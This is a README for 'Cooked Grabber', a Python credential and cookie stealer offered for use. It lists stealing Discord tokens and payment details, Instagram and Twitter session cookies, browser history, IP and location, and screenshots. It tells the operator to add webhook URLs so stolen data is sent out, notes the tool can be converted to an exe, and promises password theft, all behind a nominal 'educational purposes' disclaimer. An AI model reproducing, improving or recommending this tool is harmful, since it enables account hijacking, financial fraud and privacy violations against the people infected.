 ![Logo](https://imgur.com/lCyX6TX.png)

# Cooked Grabber

Discord , Twitter, Instagram cookies and token grabber.

## Features

- Easy to use
- Alls navigators compatibility
- Browser history stealer
- Take screenshot 
- Steal discord token
- Steal discord payment informations
- Steal IP adress and location
- Steal Instagram connection cookies
- Steal Twitter connection cookies
- Can be converted to exe
## Requirements

- **Windows 10** OS only (*win32, for x86, x86_64, and arm64 architectures*)
- **Python 3.x** (*unless it exe converted, python 3.9 used for the project.*)
- **Modules:** `$ pip install -r requirements.txt` (unless it exe converted)

## Screenshots

![App Screenshot](https://imgur.com/zMODaIm.png)


## How to use ?

There is 2 ways to run the script.

### 1. First way

You need to add your **webhook(s)** **link(s)** to the script from this line:
https://github.com/mouadessalim/CookedGrabber/blob/f753c4bea37241d94253a288dd223c5ae8f7f371/CookedGrabber.py#L290
*You can run the script normaly.*

### 2. Second way

You can also run the program by giving several arguments (the webhook(s) link(s)):
```console
py CookedGrabber.py YOUR WEBHOOK(s) URL(s)
```

## Coming soon features 
- Saved password stealer
- More error bypass
## Disclaimer
- Only for educationnal puposes.
- We decline any responsability in case of misuse of this code.

## Author

- [@mouadessalim](https://github.com/mouadessalim)
- [@crashixx](https://github.com/crashixx)
